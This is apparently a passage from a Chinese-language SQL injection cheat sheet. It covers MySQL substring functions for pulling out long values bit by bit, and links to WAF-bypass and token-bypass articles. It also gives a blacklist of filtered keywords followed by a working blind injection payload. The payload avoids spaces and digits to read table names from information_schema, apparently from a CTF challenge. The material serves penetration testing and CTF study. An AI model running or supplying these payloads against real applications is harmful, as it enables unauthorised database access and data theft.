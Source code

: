 如果显示有字数限制，对于过长的字符串需要分部分截取。
从左边开始截取   
```
SELECT LEFT('web-exp-mysql',6)
```
从右边开始截取   
```
SELECT RIGHT('web-exp-mysql',6)
```
从第3个字符开始截取到结束   
```
SELECT SUBSTRING('web-exp-mysql', 3)
```
截取第二个“-”之前的所有字符    
```
SELECT SUBSTRING_INDEX('web-exp-mysql', '-', 2);
```
截取倒数第二个“-”之后的所有字符   
```
SELECT SUBSTRING_INDEX('web-exp-mysql', '.', -2);
```
## Bypass
### 1.bypass WAF
- [sql-injection-fuck-waf](https://notwhy.github.io/2018/06/sql-injection-fuck-waf/)
### 2.bypass 过滤函数
过滤
gtid_subset|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|hash|sleep|benchmark| |;|\*|\+|-|/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`
```
'and(ASCII(substring((select(group_concat(table_name))from(information_schema.TABLES)where(TABLE_SCHEMA='rctf')),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a')))))=ASCII('f')'and(ASCII(substring((select(group_concat(table_name))from(information_schema.TABLES)where(TABLE_SCHEMA='rctf')),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a')))))=ASCII('f')
```
### 3.bypass Token保护
- [Burpsuite+SQLMAP双璧合一绕过Token保护的应用进行注入攻击](https://www.freebuf.com/sectool/128589.html)

